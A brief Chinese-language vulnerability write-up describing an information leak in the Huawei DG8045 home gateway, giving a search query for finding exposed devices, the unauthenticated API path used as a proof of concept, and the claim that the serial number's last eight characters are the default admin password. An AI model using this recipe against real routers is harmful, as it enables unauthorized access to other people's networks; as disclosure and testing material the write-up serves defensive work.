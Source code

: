 # 

# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## 网络测绘

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](./images/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](./images/202205191818539.png)

SerialNumber 后8位即为初始密码
